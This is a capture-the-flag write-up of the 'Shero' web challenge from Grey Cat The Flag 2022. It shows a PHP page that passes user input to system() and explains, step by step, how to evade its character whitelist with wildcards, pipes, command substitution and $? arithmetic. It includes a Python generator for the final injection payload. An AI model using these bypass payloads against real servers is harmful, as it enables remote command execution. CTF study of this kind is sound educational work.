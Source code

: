 # Grey Cat The Flag 2022

## Qualifiers

| Challenge                                | Category | Value |
| ---------------------------------------- | -------- | ----- |
| Data Degeneration                        | Misc     | 394   |
| Logical Computers                        | Misc     | 467   |
| Quotes                                   | Web      | 485   |
| SelNode                                  | Web      | 467   |
| Grapache                                 | Web      | 493   |
| [Shero](grey-cat-the-flag-2022.md#shero) | Web      | 495   |

## Shero

> We like cat, so don't abuse it please =(
>
> * 复读机

The premise of this challenge was quite simple. We are given the following source code, with the goal of finding the flag somewhere on the server.

```php
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>
```

By supplying a `?f=` GET request parameter, we can run commands on the server. One problem though - the regex filter is more than a little restrictive.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 10.57.05 PM.png>)

This is the part where the challenge turns from a web challenge to a command injection filter bypass challenge :sob:

The list of allowed characters are as follows:

* `.`
* `c`
* `a`
* `t`
* `!`
* `?`
* &#x20;``&#x20;
* `/`
* `|`
* `-`
* `[`
* `]`
* `(`
* `)`
* `$`

### Reading Arbitrary Files

One trick to bypass the character filter and run commands other than `cat` is to use [wildcards](https://tldp.org/LDP/GNU-Linux-Tools-Summary/html/x11655.htm). In particular, the `?` wildcard character is used to match any single character.

For example, using `cat /?tc/???t?`, we could read the `/etc/hosts` file.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.31.41 PM.png>)

Using `cat /????????` yielded this very interesting-looking binary. At first glance, it contained the string `readflag.c`, so we could guess that this binary is probably called `readflag` and it runs with elevated permissions to read a flag file somewhere (so that we need RCE instead of simple file reading)

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.25.14 PM.png>)

If we download the binary and open it up in a decompiler, we would see that we need to pass the string `sRPd45w_0` as an argument (`argv[1]`) in order to read the flag. This was the result of rearranging the letters in the string `P4s5_w0Rd`.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.33.44 PM.png>)

### Running Arbitrary Commands

Since the `|` character is allowed, we are able to use piping to terminate the `cat` command and start a new command. For example, using `?f=| /??a???a?` will translate to `cat | /??a???a?`, which runs the `/readflag` binary.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.37.19 PM.png>)

### Passing the Argument

Now comes the torturous part. How do we get arbitrary characters to use as the password?

One thing that might help is that `$()` is allowed, so we could use [command substitution](https://www.gnu.org/software/bash/manual/html\_node/Command-Substitution.html) to get the strings we need.

When reading the binary previously, we could see that the string `P4s5_w0Rd` is in the binary. If we could run `strings` on the binary, somehow extract only the password string, and rearrange the letters, we could use command substitution to pass the correct password as an argument.

We could run `/usr/bin/strings /readflag` using `/???/???/?t????? /??a???a?`&#x20;

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.51.19 PM.png>)

Now we need some way of filtering out the rest of the strings and only keeping the relevant `P4s5_w0Rd` string. I came across [this writeup](https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho) of a similar command injection challenge where the author used `/etc/alternatives/nawk` to filter output using regex, so I decided to try something similar.

Luckily enough, many useful regex characters are allowed - in particular, `.`, `[` and `]` are very useful. This allowed me to construct a regex that leaves only the password string.

![](<../.gitbook/assets/Screenshot 2022-06-09 at 11.56.15 PM.png>)

Using `/???/???/?t????? /???????? | /???/a?t???a?????/?a?? /[.-t][.-a][.-t][.-a][!-a].[.-a][.-t][c-t]/`, we can get the `P4s5_w0Rd` string!

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.00.36 AM.png>)

At this point, we could try passing in the string as an argument to `/readflag` using `$()`, but this will yield "Wrong Password!".

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.03.15 AM.png>)

### Rearranging the Letters

We needed a way to rearrange `P4s5_w0Rd` into `sRPd45w_0`. It would be great if we could get characters of the string at specified indices - it sure is nice that a [`cut` command](https://man7.org/linux/man-pages/man1/cut.1.html) exists for this very purpose!

By using `/???/???/c?t -cX`, we will get the character of the string at index X.

But how do we get numbers? It turns out that `$?` is one of the [special parameters](https://gnu.org/software/bash/manual/html\_node/Special-Parameters.html) in bash, containing the exit status code of the previous command. If the exit code is non-zero, then `$? / $?` will yield `1`, `$? / $? -- $? / $?` will yield `2`, and so on. If the exit code is zero, this method will lead to a division by zero error.

But how do we make the exit code non-zero? We just need to place an extra bogus command in front of it: `(a || /???/???/c?t -c$(($? / $?)))`.

Here's the script to generate the payload required to reconstruct the password string.

```python
original = "P4s5_w0Rd"
target = "sRPd45w_0"

final = ''
for char in target:
    idx = original.index(char)

    num = "$? / $?"

    for i in range(idx):
        num += "-- $? / $?"

    final += f"$(/???/???/?t????? /???????? | /???/a?t???a?????/?a?? /[.-t][.-a][.-t][.-a][!-a].[.-a][.-t][c-t]/ | (a || /???/???/c?t -c$(({num}))))"

print(final)
```

And here's the payload...

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.22.38 AM.png>)

### Putting It All Together

All we need to do now is to use the output from the previous script and put it behind `/readflag`.

![](<../.gitbook/assets/Screenshot 2022-06-10 at 12.26.47 AM.png>)

and we get the flag: `grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16}`.

### References

* [https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho](https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho)&#x20;
